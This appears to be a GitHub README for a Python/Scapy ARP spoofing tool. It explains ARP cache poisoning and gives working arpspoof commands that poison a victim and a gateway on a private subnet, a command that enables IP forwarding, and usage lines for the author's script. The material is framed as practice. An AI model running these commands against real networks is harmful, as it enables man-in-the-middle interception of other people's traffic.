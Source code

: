 # ARP Spoofer

ARP spoofing, ARP cache poisoning, or ARP poison routing, is a technique by which an attacker sends an ARP request to a device on a local area network, associating its MAC address with the IP addresses of other devices. 
Most likely this includes the default router or gateway, causing any traffic from the local network meant for it to be sent to the attacker instead.

There are many existing tools, like `arpspoof` that can do this.

From the hacking machine to the victim machine and router:

```shell
$ sudo arpspoof -i eth0 -t 192.168.122.75 192.168.122.1
```

and to the router:

```shell
$ sudo arpspoof -i eth0 -t 192.168.122.1 192.168.122.75
```

and setting enabling forward (not persistent) on the hacking machine:

```shell
$ sudo sysctl -w net.ipv4.ip_forward=1
```

And programming such an ARP Spoofer is excellent practice.

## Requirements

* Root access
* Python 3
* Scapy

## Usage

```shell
usage: arp_spoofer.py [-h] [-t TARGET_IP] [-s SPOOF_IP]
```

Example:

```shell
$ sudo sysctl -w net.ipv4.ip_forward=1
$ sudo python3 arp_spoofer.py -t 192.168.122.75 -s 192.168.122.1
```